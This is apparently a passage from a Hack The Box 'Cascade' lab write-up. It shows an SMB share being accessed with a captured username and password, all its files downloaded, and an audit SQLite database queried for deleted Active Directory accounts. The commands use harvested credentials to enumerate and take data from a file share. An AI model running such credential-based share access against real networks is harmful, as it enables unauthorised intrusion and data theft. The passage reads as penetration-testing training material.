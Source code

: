 ```
$ smbclient \\\\cascade.htb\\Audit$ -U s.smith%sT333ve2
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 29 10:01:26 2020
  ..                                  D        0  Wed Jan 29 10:01:26 2020
  CascAudit.exe                       A    13312  Tue Jan 28 13:46:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 10:00:20 2020
  DB                                  D        0  Tue Jan 28 13:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 15:29:47 2020
  System.Data.SQLite.dll              A   363520  Sat Oct 26 23:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sat Oct 26 23:38:38 2019
  x64                                 D        0  Sun Jan 26 14:25:27 2020
  x86                                 D        0  Sun Jan 26 14:25:27 2020

                13106687 blocks of size 4096. 7795037 blocks available
```
Right off the bat we see a few interesting files already - `CascAudit.exe` and `CascCrypto.exe` - simply because they're unusual and contain the word "crypto". Let's download them all:
```
$ smbget -R smb://cascade.htb/Audit$ -U s.smith%sT333ve2
Using workgroup WORKGROUP, user s.smith
smb://cascade.htb/Audit$/CascAudit.exe                                                                                                                   
smb://cascade.htb/Audit$/CascCrypto.dll                                                                                                                  
smb://cascade.htb/Audit$/DB/Audit.db                                                                                                                     
smb://cascade.htb/Audit$/RunAudit.bat                                                                                                                    
smb://cascade.htb/Audit$/System.Data.SQLite.dll                                                                                                          
smb://cascade.htb/Audit$/System.Data.SQLite.EF6.dll                                                                                                      
smb://cascade.htb/Audit$/x64/SQLite.Interop.dll                                                                                                          
smb://cascade.htb/Audit$/x86/SQLite.Interop.dll                                                                                                          
Downloaded 3.33MB in 52 seconds
```
..and look inside all the readable files...(only `RunAudit.bat` here is readable):
```
$ cat RunAudit.bat 
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```
So `CascAudit.exe` simply performs some things `Audit.db`. Great. We can see that `Audit.db` is probalby an `SQLite` file, so let's take a look inside using `SQLite`:
```
$ sqlite3 Audit.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .databases
main: /home/kali/htb/cascade/smb/s.smith.smb.audit/Audit.db

sqlite> .tables
DeletedUserAudit  Ldap              Misc  

sqlite> select * from DeletedUserAudit;
6|test|Test
DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
7|deleted|deleted guy
DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
9|TempAdmin|TempAdmin
```